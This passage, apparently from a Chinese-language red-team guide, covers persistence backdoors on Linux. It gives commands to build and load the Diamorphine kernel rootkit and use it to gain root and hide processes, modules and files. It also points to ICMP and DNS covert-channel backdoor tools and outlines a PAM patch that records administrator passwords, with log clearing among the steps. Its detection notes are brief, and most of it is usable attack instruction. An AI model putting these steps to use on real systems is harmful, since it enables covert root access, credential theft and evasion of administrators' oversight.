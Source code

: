 1. Diamorphine是一个C语言写的，运行于linux系统的rootkit，支持linux 内核版本2.6.x/3.x/4.x。(uname -a查看服务器内核版本)
2. 安装Diamorphine-root运行

```
git clone https://github.com/m0nad/Diamorphine.git
cd Diamorphine&&make
insmod diamorphine.ko
```

1. 用法

```
1. 低权限获得root权限(指定某用户进程，使某用户变成root)
kill -64 用户的pid    //一般是0,不可逆除非重启或者注销该用户
2. 进程隐藏
kill -31 pid号 (对同一个pid号使用一次是隐藏，使用第二次是显示)
3. 隐藏模块
kill -63 pid号 (如果分不清模块还是进程，lsmod 一下，你可以看到所有模块名称)
4. 创建隐藏文件
只要是diamorphine_secret开头的文件名或者文件夹，就会自动隐藏
5. 查找这个后门
diamorphine 这个模块通过insmod安装后，系统启动时候是不会显示的，如果需要显示，需要执行  kill -63 0       #如果不执行kill -63 0，执行lsmod是查看不到有这个模块的，执行后再执行lsmod | grep diamorphine 即可看到这个模块。
6. 卸载diamorphine模块，需要root权限
rmmod diamorphine
```

### 协议后门

在一些访问控制做的比较严格的环境中，由内到外的TCP流量会被阻断掉。但是对于UDP(DNS、ICMP)相关流量通常不会拦截。

#### ICMP

1. 主要原理就是利用ICMP中可控的data字段进行数据传输，具体原理请参考: https://zhuanlan.zhihu.com/p/41154036
2. 开源工具：ICMP后门项目地址：https://github.com/andreafabrizi/prism

#### DNS

1. 在大多数的网络里环境中IPS/IDS或者硬件防火墙都不会监控和过滤DNS流量。主要原理就是将后门载荷隐藏在拥有PTR记录和A记录的DNS域中（也可以利用AAAA记录和IPv6地址传输后门），具体请参考：通过DNS传输后门来绕过杀软https://www.anquanke.com/post/id/85431
2. 开源工具：DNS后门项目地址：https://github.com/DamonMohammadbagher/NativePayload_DNS
3. 协议后门检测：对于DNS/ICMP这种协议后门，直接查看网络连接即可，因为在使用过程中会产生大量的网络连接，清除：kill进程、删除文件即可

### PAM后门

1. PAM使用配置 /etc/pam.d/ 下的文件来管理认证方式，应用程序调用相应的配置文件，以加载动态库的形式调用 /lib/security下的模块。 PAM配置可分为四个参数: 模块类型、控制标记、模块路径、模块参数，例如: session requiredpam_selinux.so open 上面提到的 sshd 软链接后门利用的 PAM 机制达到任意密码登录，还有一种方式是键盘记录。原理主要是通过 pam_unix_auth.c 打补丁的方式潜入到正常的 pam 模块中，以此来记录管理员的帐号密码。 利用步骤：复制patch到源代码目录 >>> 打patch >>> 编译 >>> 将生成的pam_uninx.so文件覆盖到/lib/secruity/pam_unix.so下 >>> 修改文件属性 >>> 建立密码保存文件，并设置好相关的权限 >>> 清理日志 >>> ok

```
#确保ssh开启pam支持
vim /etc/ssh/sshd_config
UsePAM yes
#自动化脚本
https://github.com/litsand/shell/blob/master/pam.sh
```
